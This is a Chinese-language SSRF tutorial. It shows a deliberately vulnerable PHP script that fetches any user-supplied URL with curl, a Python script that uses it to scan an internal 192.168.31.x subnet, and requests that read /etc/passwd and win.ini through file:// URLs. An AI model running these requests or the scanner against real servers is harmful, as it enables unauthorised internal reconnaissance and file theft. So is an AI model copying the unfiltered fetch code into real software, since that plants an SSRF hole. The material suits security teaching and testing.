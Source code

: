SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。 

url是远程目标的文本

```http
http://www.webtester.com/ssrf.php?url=http://www.demo1.com/robots.txt
```

漏洞代码ssrf.php

```php
<?php
include 'init.php';
if ($_GET['url']) {
        // Client
        $url = $_GET['url'];
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($ch, CURLOPT_NOSIGNAL, 1);
        curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
        $data = curl_exec($ch);
        $curl_errno = curl_errno($ch);
        $curl_error = curl_error($ch);
        curl_close($ch);

        if ($curl_errno > 0) {
                echo "cURL Error ($curl_errno): $curl_error\n";
        } else {
                echo "$data\n";
        }
} else {
        // Server
        sleep(10);
        echo "Done.";
}
?>
```

1、 利用扫描内部网络

扫描c段的ip 和端口

ssrf.py 

```python
#coding:utf-8
import urllib,urllib2
import threading,Queue,time

q = Queue.Queue()
lock = threading.Lock()
def get_server(url,data=None):
    code=html=length=""
    data ={'url':'http://'+data}
    values= urllib.urlencode(data)
    try:
        req=urllib2.urlopen(url, data=values, timeout=5)
        html=req.read()
        code =req.code
        length=len(html)
        return code,html,length
    except:
        return code,html,length
#print get_server("http://localhost/ssrf/ssrf.php", "127.0.0.1:3306")

def run():
    while q.qsize()>0:
        ip = q.get()
        code,html,length=get_server("http://www.webtester.com/ssrf.php",ip)
        time.sleep(0.01)
        if length!="":
            lock.acquire()
            print "http://"+ip+"    code     "+str(code)+"    length    "+str(length)+"    html    "+html
            lock.release()
        else:
            lock.acquire()
            print ip
            lock.release()            
    q.all_tasks_done
    
ip="192.168.31."
for i in range(1,255):
    for port in [22,80,8080,3306]:
        iport = ip+str(i)+":"+str(port)
        q.put(iport)
        
for i in range(10):
    t = threading.Thread(target=run)
    t.start()
q.join()
```

2、 攻击内部网络

```http
http://www.webtester.com/ssrf.php?url=http://192.168.31.125/phpinfo.php
```

![image-20210416005953719](../acess/image-20210416005953719.png) 

3、识别内部系统

4、读取本地文件 

file:///C:/Windows/win.ini
file:///etc/passwd

```http
http://www.webtester.com/ssrf.php?url=file:///etc/passwd
```

![image-20210416005618673](../acess/image-20210416005618673.png) 

用burpsuite进行测试

![image-20210416010932999](../acess/image-20210416010932999.png) 
